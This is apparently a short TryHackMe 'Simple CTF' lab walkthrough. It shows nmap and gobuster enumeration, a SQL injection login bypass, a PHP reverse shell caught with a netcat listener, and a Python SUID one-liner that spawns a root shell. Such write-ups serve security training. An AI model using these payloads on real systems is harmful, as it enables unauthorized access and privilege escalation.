 # 🧠 TryHackMe – Simple CTF Walkthrough

**CTF Type:** Web Exploitation & Privilege Escalation  
**Platform:** TryHackMe  
**Level:** Beginner  
**Tags:** #CTF #TryHackMe #WebSecurity #PrivilegeEscalation

---

## 🧭 Overview

This writeup covers the full walkthrough for the Simple CTF room on TryHackMe. The objective was to identify open ports, exploit a web vulnerability, gain shell access, and escalate privileges to root.

---

## 🛠 Tools Used

- Nmap  
- Gobuster  
- Burp Suite  
- Netcat  
- LinPEAS  
- Linux CLI

---

## 🕹 Steps

### 1. **Enumeration**
```bash
nmap -sC -sV -oN nmap.txt 10.10.10.10
```
Open ports:
- 22 (SSH)
- 80 (HTTP)

Discovered login page at `/admin`. Ran:
```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### 2. **Exploitation**
Used SQL Injection on login page:
```sql
admin' OR '1'='1 --
```
Gained access to file upload panel. Uploaded PHP reverse shell and ran:
```bash
nc -lvnp 4444
```

### 3. **Privilege Escalation**
Used `linpeas.sh` to scan for privesc opportunities. Found:
- `/usr/bin/python` had SUID set

Used:
```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Grabbed root flag from `/root/root.txt`.

---

## 📘 Takeaways

- Identified SQL Injection vulnerability
- Practiced reverse shell delivery
- Learned to escalate privileges using SUID binaries
- Reinforced structured enumeration and documentation

